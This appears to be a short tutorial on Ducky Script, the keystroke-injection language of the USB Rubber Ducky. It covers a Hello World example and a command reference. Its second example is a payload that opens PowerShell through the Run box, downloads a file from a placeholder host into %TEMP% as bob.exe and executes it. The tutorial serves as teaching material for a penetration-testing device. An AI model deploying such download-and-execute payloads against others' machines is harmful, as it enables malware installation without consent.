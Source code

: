 # Introduction

Since first time Ducky users are unfamiliar with Ducky Script, below is a brief summary (with examples) on how to code in Ducky Script.

# Example 1 - Hello World

The Ducky fires the payload immediately, so you need an initial delay for the OS to recognize and allow the Ducky to proceed as a keyboard, in this example we use a delay of 3secs (3000msecs) for the Windows OS (other OS's may be quicker).

The steps of this example can be broken down into:

* Initial Delay for the OS
* GUI R triggers the run-box
* Small delay to wait for the run-box to open
* Ducky types notepad ENTER to load notepad
* Small delay to wait for notepad to open
* Ducky then types an arbitrary string into notepad

```
DELAY 3000
GUI R
DELAY 200
STRING notepad
ENTER
DELAY 200
STRING Hello World!!!
ENTER
```

# Example 2 - Download & Execute

An example of using Powershell to download a file from the web and then execute it.

```
DELAY 3000
GUI r
DELAY 100
STRING powershell (new-object System.Net.WebClient).DownloadFile('http://example.com/bob.old','%TEMP%\bob.exe');
DELAY 100
STRING Start-Process "%TEMP%\bob.exe"
ENTER
```

# Other Examples

The community is storing generated payloads on the following wiki-page:

* https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads

# Command Breakdown

* DELAY x msecs - Delay in milli-secs
* STRING xyz - types following characters
* GUI - Windows Menu Key
* GUI R - Windows Run box
* Command - OSX Command Key
* UP | UPARROW - Up Key
* DOWN | DOWNARROW - Down Key
* LEFT | LEFTARROW - Left Key
* RIGHT | RIGHTARROW - Right Key
* CAPS |CAPSLOCK - Capslock Key
* ENTER - Return/Enter key
* SPACE - Spacebar
* REPEAT x - Repeat previous command X times.

You can even use some (but not all) two or three key-combinations:

* SHIFT-ENTER
* CTRL-ALT-DEL
* ALT-F4